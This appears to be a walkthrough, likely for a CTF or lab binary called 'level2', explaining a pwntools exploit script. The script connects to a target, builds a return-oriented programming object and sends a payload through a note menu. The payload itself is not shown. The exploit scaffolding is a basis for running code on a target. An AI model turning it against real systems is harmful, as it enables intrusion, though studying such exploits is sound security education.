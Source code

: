 let's break down the code

- The first two lines imports necessary modules:
    ```
    from pwn import *
    import struct
    ```
    -  from pwn import *: This imports the pwn module, which is commonly used for exploit development and provides various functionalities for interacting with processes, crafting payloads, and more.
    -  import struct: This imports the struct module, which provides functions to convert between Python values and C-style binary data.

- The next lines of code initializes some variables:
   ```
    ellf = ELF('./level2')
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')

    try:
        #try connecting remote
        ip = '192.168.17.129'
        port = 53121

        print("[+] Connecting to Target {0}".format(ip))
        proc = remote(ip,port)
    except:
        #connect local if remote not up
        print("using local executable:")
        proc = ellf.process()

   ``` 
   - within the try block of code, the elf symbols and libc are read and stored as a list into the variable `ellf` and `libc` respectively then a connection with a target IP and port using the remote() function from the pwn module. If the connection cannot be established, it falls back to using the local executable by creating a process with ellf.process().

- The script creates an instance of the ROP class, which is used for Return-Oriented Programming (ROP) exploitation technique. 
    ```
    rop = ROP(ellf)
    ```
    - ROP allows executing arbitrary code by chaining together small pieces of existing code, known as "gadgets," already present in the program's memory.

- The script starts interacting with the target by sending commands and receiving responses. It follows these steps:
    ```
    print("[*]Sending payload to note 0: ",payload)
    proc.sendline(b'set')
    print(proc.recvuntil(b">").decode())
    proc.sendline(b'0')
    print(proc.recvuntil(b">").decode())
    proc.sendline(payload)
    print(proc.recvuntil(b">").decode())
    print("[*] Payload sent to note 0 sucessfully")
